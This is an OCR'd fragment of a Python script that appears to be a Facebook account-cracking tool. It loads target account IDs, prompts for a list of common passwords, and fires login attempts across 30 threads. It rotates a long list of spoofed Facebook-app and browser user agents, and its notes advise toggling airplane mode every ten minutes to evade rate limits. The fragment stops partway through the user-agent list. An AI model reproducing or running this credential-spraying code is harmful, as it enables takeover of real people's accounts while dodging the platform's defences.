 			print("\033[0;97m [=>] TOTAL ID -> \033[0;97m%s\033[0;97m"%(len(self.id))) 
			os.system("clear")
			logo2()
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [=>] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,123456789"%(Y,G))
				listpass = input("%s [=>] TYPE (123456,123456789) :%s "%(Y,G))
				print("───────────────────────────────────────────────────────× ")
				if len(listpass)<=5:
					exit("\n%s [=>] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [=>] CRACK WITH PASSWORD -> [\033[0;97m%s\033[0;97m]"%(Y,listpass))
				os.system("clear")
				logo2()
				print("───────────────────────────────────────────────────────× ")
				print("\033[0;92m[=×>]\033[0;92m NOTE : BEFORE LOGIN CP IDZ ")
				print("\033[0;92m[=×>]\033[0;92m NOTE : CLEAR YOUR FACEBOOK /BROWSER DATA " )
				print("\033[0;92m[=×>]\033[0;92m NOTE : ENJOY FREE TOOL")
				print("\033[0;92m[=×>]\033[0;92m NOTE : HAR 10 MIN BAD AIRPLAN MOD/FLIGHT MOD ON KRO ")
				print("\033[0;97m───────────────────────────────────────────────────────× ")
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n    [=>] CRACK COMPLETE...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):

		ua = random.choice([
			'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]', 
			'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]'
			'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322)',
			'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
			'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36',
			'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0',
			'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36',
			'Mozilla/5.0 (Windows IoT 10.0; Android 6.0.1; WebView/3.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Mobile Safari/537.36 Edge/17.17134',
			'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36',
			'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0',
'Mozilla/5.0 (Linux; Android 5.1; PICOphone_M4U_M2_M Build/LMY47D; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36',
 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322)',
 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36',
 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0',
 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36',
 'Mozilla/5.0 (Windows IoT 10.0; Android 6.0.1; WebView/3.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Mobile Safari/537.36 Edge/17.17134',
 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36',
 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0',
 'NokiaC3-00/5.0 (07.20) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+',